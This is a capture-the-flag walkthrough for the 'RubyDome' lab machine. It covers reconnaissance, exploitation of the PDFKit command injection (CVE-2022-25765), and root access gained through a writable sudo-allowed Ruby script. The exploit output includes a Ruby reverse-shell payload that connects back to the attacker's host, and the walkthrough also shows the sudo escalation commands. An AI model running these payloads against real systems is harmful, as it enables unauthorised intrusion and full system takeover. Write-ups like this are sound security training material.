

# RubyDome

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Lab Description:
This lab demonstrates exploiting a Remote Code Execution (RCE) vulnerability in the PDFKit gem (CVE-2022-25765) 
used in a RubyDome HTML-to-PDF conversion service. Privilege escalation is achieved by leveraging a sudo 
misconfiguration that allows the andrew user to execute a Ruby script (app.rb) with root privileges. By 
injecting a malicious payload into the script, learners gain a root shell. The lab highlights command injection, 
sudo privilege abuse, and RCE chaining for full system compromise.
Released: 16 Jun 2023
```

Machine link: [https://portal.offsec.com/machine/rubydome-50401/overview/details](https://portal.offsec.com/machine/rubydome-50401/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ export TARGET_IP=192.168.230.22

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 09:41 CEST
Nmap scan report for 192.168.230.22
Host is up (0.033s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
1790/tcp  filtered nmsp
3000/tcp  open     http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
7148/tcp  filtered unknown
30783/tcp filtered unknown
42894/tcp filtered unknown
62693/tcp filtered unknown
63683/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.37 seconds
```

We have two services running and available:

- OpenSSH 8.9p1 on port 22
- WEBrick httpd 1.7.0 on port 3000

### Check the web site

Browsing manually to port 3000 shows a PDF conversion service:


To have something to test we start our local Apache2 service

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ sudo systemctl start apache2    
[sudo] password for kali: 
```

And give the converter this page to convert: `http://192.168.45.180/index.html`.  
That work just fine. We get the `Apache2 Debian Default Page` as a PDF back from `http://192.168.230.22:3000/pdf`.

Let's try to provoke the service by asking it convert its own result, i.e. convert `http://192.168.230.22:3000/pdf`.

The result is the following error page from PDFKit:



A bit down on the page we find the version of the software running: `WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`.

Let's see if there are any exploits available

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ searchsploit WEBrick 1.7.0  
Exploits: No Results
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ searchsploit pdfkit       
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
pdfkit v0.8.7.2 - Command Injection                                                                                                                   | ruby/local/51293.py
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ searchsploit -m 51293
  Exploit: pdfkit v0.8.7.2 - Command Injection
      URL: https://www.exploit-db.com/exploits/51293
     Path: /usr/share/exploitdb/exploits/ruby/local/51293.py
    Codes: CVE-2022–25765
 Verified: True
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/RubyDome/51293.py

```

We have a command injection vulnerability

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ head -n 15 51293.py
#!/usr/bin/env python3
# Exploit Title: pdfkit v0.8.7.2 - Command Injection
# Date: 02/23/2023
# Exploit Author: UNICORD (NicPWNs & Dev-Yeoj)
# Vendor Homepage: https://pdfkit.org/
# Software Link: https://github.com/pdfkit/pdfkit
# Version: 0.0.0-0.8.7.2
# Tested on: pdfkit 0.8.6
# CVE: CVE-2022–25765
# Source: https://github.com/UNICORDev/exploit-CVE-2022-25765
# Description: The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.

# Imports
import time
import sys

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ python 51293.py -h   
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

It seems we can get a reverse shell with the `-s` parameter.

### Get a reverse shell

We start a netcat listener as preparation

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

And launch the exploit

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ python 51293.py -s 192.168.45.180 12345 -w http://192.168.230.22:3000/pdf
ERRORED: Provide a target site and post parameter! "-w <http://target.com/index.html> -p <parameter>"

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ python 51293.py -s 192.168.45.180 12345 -w http://192.168.230.22:3000/pdf -p 'url'

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.180","12345"))'`
LOCALIP: 192.168.45.180:12345
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 12345".
WEBSITE: http://192.168.230.22:3000/pdf
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Checking back to the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.230.22] 49712
id
uid=1001(andrew) gid=1001(andrew) groups=1001(andrew),27(sudo)
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
tty
not a tty
python3 -c 'import pty;pty.spawn("/bin/bash")'
andrew@rubydome:~/app$ ^Z
zsh: suspended  nc -lvnp 12345
                                                                                                                                                                                        
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/RubyDome]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 12345

andrew@rubydome:~/app$ ^C
andrew@rubydome:~/app$ ^C
andrew@rubydome:~/app$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Get the user flag

Now we can start looking for the user flag

```bash
andrew@rubydome:~/app$ find / -type f -name user.txt 2>/dev/null
andrew@rubydome:~/app$ find / -type f -name local.txt 2>/dev/null
/home/andrew/local.txt
andrew@rubydome:~/app$ cat /home/andrew/local.txt 
2<REDACTED>a
andrew@rubydome:~/app$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we check local files under the `/home` directory

```bash
andrew@rubydome:~/app$ cd /home
andrew@rubydome:/home$ ls -laR .
.:
total 12
drwxr-xr-x  3 root   root   4096 Apr 25  2023 .
drwxr-xr-x 19 root   root   4096 Jun 15  2022 ..
drwxr-x---  3 andrew andrew 4096 Jun 13  2023 andrew

./andrew:
total 32
drwxr-x--- 3 andrew andrew 4096 Jun 13  2023 .
drwxr-xr-x 3 root   root   4096 Apr 25  2023 ..
drwxr-xr-x 2 andrew andrew 4096 Apr 25  2023 app
lrwxrwxrwx 1 root   root      9 Apr 25  2023 .bash_history -> /dev/null
-rw-r--r-- 1 andrew andrew  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 andrew andrew 3771 Jan  6  2022 .bashrc
-rw-rw-r-- 1 andrew andrew   33 Sep  2 07:39 local.txt
-rw-r--r-- 1 andrew andrew  807 Jan  6  2022 .profile
-rw-r--r-- 1 andrew andrew    0 Apr 25  2023 .sudo_as_admin_successful
-rw------- 1 andrew andrew  774 Jun 13  2023 .viminfo

./andrew/app:
total 40
drwxr-xr-x 2 andrew andrew  4096 Apr 25  2023 .
drwxr-x--- 3 andrew andrew  4096 Jun 13  2023 ..
-rwxrwx--- 1 andrew andrew  1032 Apr 24  2023 app.rb
-rw-rw-r-- 1 andrew andrew 27675 Sep  2 08:25 page.pdf
andrew@rubydome:/home$ 
```

Since we have a `.sudo_as_admin_successful` file, let's check what we can run with sudo.

```bash
andrew@rubydome:/home$ sudo -l
Matching Defaults entries for andrew on rubydome:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User andrew may run the following commands on rubydome:
    (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
andrew@rubydome:/home$ 
```

We can run the ruby app which we can write to!.

### Update the Ruby app

We update the app source

```bash
andrew@rubydome:/home$ echo "system('/bin/bash')" > /home/andrew/app/app.rb 
andrew@rubydome:/home$ cat /home/andrew/app/app.rb 
system('/bin/bash')
andrew@rubydome:/home$ 
```

And start the app

```bash
andrew@rubydome:/home$ sudo /usr/bin/ruby /home/andrew/app/app.rb           
root@rubydome:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@rubydome:/home# 
```

Now we are root!

### Get the root flag

Finally we get the root flag

```bash
root@rubydome:/home# ls /root
email1.txt  proof.txt  snap
root@rubydome:/home# cat /root/email1.txt 
MjAwTFZ
root@rubydome:/home# cat /root/proof.txt  
9<REDACTED>e
root@rubydome:/home# 
```

For additional information, please see the references below.

## References

- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Ruby (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Ruby_(programming_language))
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [systemctl - Linux manual page](https://www.man7.org/linux/man-pages/man1/systemctl.1.html)
